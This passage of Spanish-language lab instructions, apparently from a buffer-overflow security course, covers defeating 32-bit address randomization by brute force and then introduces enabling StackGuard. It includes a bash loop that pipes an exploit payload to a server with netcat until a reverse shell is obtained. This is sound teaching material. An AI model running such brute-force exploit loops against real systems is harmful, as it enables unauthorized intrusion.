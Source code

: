 \paragraph{Evadiendo 32-bits randomization.}
Es sabido que en máquinas linux de 32-bits, sólo 19 bits pueden ser usados para hacer address randomization. Eso no es lo suficientemente robusto y podemos evadir esta protección corriendo el ataque un número determinado de veces hasta lograr un ataque exitoso. Por otro lado en máquinas de 64-bits, el número de bits usado para esta protección fue incrementado de forma significativa.

En esta Tarea, intentaremos evadir esta protección en el servidor de 32-bits del Level 1.
Nos serviremos del método de fuerza brruta para atacar el servidor repetidamente, con la intención de poder acertar la dirección de memoria que colocaremos en nuestro payload.
Usaremos el payloadd del ataque en el Level 1.
Puede utilizar el script bash dado a continuación, este script correrá el ataque en un loop infinito. Si el ataque es exitóso y se obtiene una shell reversa, el script terminará, de lo contrario seguirá corriendo.
Si tiene suerte, debería de obtener una shell reversa a lo 10 minutos de lanzado el ataque.

\begin{lstlisting}[language=bash]
#!/bin/bash

SECONDS=0
value=0
while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done
\end{lstlisting}



\section{Tarea 7: Experimentando con otras Contramedidas}

\subsection{Tarea 7.a: Activando StackGuard}

Muchos compiladores como \texttt{gcc} implementan un mecanismo de seguridad llamado \textit{StackGuard} esta protección está destinada a prevenir ataques a programas con vulnerabilidades de buffer overflow. Loss programas vulnerables que hemos estado usando tienen esta protección desactivada. 
En esta tarea, la activaremos para ver que es lo que pasa.


